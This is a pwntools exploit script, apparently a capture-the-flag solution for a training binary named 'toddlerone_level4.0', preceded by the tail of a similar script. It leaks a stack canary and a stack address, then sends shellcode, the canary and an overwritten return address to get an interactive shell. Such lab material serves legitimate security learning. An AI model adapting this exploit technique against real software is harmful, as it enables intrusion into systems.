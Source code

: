 ```python
p.recvuntil("Payload size: ")
p.sendline(f"{real_payload_size}")
shellcode_file = open("/home/hacker/exploit/level3/shellcode.bin", "rb")
shellcode = shellcode_file.read()
shellcode_size = len(shellcode)
exit_code = p64(0x4a6fb1126219f9e3)
real_payload = shellcode + (0x58-shellcode_size) * b'B' + exit_code + 8 *b'A' + canary_value + 8*b'A' + return_address
p.send(real_payload)

p.interactive()





from pwn import *

elf = ELF("/challenge/toddlerone_level4.0")

p = process("/challenge/toddlerone_level4.0")
p.recvuntil("Payload size: ")

init_payload_size = 0x48 + 0x8 + 0x8 + 0x8 - 8 + 1
p.sendline(f"{init_payload_size}")
init_payload = b'REPEAT' + b'A' * (init_payload_size - 6)
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
canary_value = response[init_payload_size:init_payload_size+7].rjust(8, b'\x00')
canary_value = p64(u64(canary_value))
print(f"canary_value: {canary_value}")

p.recvuntil("Payload size: ")
p.sendline(f"{init_payload_size}")
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
stack_value = response[init_payload_size+7:].ljust(8, b'\x00')
stack_value = u64(stack_value)
print(f"stack_value: {p64(stack_value)}")


return_address = p64(stack_value - 0xB0 - 0xB0 - 0x60)

real_payload_size = (0x60-8) + 8 + 8 + 8
p.recvuntil("Payload size: ")
p.sendline(f"{real_payload_size}")
shellcode_file = open("/home/hacker/exploit/level3/shellcode.bin", "rb")
shellcode = shellcode_file.read()
shellcode_size = len(shellcode)
exit_code = p64(0xf58b48d72ec7b457)
real_payload = shellcode + (72-shellcode_size) * b'B' + exit_code + 8 *b'A' + canary_value + 8*b'A' + return_address
p.send(real_payload)

p.interactive()
```
